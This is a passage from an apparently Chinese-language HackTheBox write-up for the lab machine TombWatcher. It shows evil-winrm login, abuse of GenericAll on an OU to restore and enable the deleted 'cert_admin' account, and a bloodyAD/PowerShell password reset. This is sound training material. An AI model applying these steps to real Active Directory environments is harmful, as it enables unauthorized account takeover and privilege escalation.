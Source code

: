 到这里john就在远程管理组里了，我们远程登录：

```
└─# evil-winrm -i 10.10.11.72 -u john -p 'Orange33315!' 
```

在C:\Users\john\Desktop\拿到user.txt

# 三：权限提升

john用户对ADCS OU有GenericALL权限，但是在bloodhound中我们发现ADCS OU是空的。联想域名**TombWatcher**（墓碑看守者），我们可以找被删除的用户对象：

```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
```

Get-ADObject用于检索AD对象，-Filter筛选，后面`isDeleted -eq $true`筛选出被标记为删除的对象，`-IncludeDeletedObjects`指示搜索已经删除的对象。

注意这里的删除是指放入了回收站，但是并没有完全删除

找到了被删除的账户`cert_admin`

我们使用powershell恢复它：

```
Restore-ADObject -Identity c1f1f0fe-df9c-494c-bf05-0679e181b358
```

然后启用账户：
```
Enable-ADAccount -Identity cert_admin
```

最后验证：

```
*Evil-WinRM* PS C:\Users\john\Documents> Get-ADUser -Identity cert_admin

DistinguishedName : CN=cert_admin,OU=ADCS,DC=tombwatcher,DC=htb
Enabled           : True
GivenName         : cert_admin
Name              : cert_admin
ObjectClass       : user
ObjectGUID        : c1f1f0fe-df9c-494c-bf05-0679e181b358
SamAccountName    : cert_admin
SID               : S-1-5-21-1392491010-1358638721-2126982587-1110
Surname           : cert_admin
UserPrincipalName :
```

我们使用bloodaAD给它改个密码，在powershell中操作也可以：

```
└─# bloodyAD -u john -p 'Orange33315!' --host 10.10.11.72 set password cert_admin Orange33315!
[+] Password changed successfully!
或者
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "Orange33315!" -AsPlainText -Force)
```
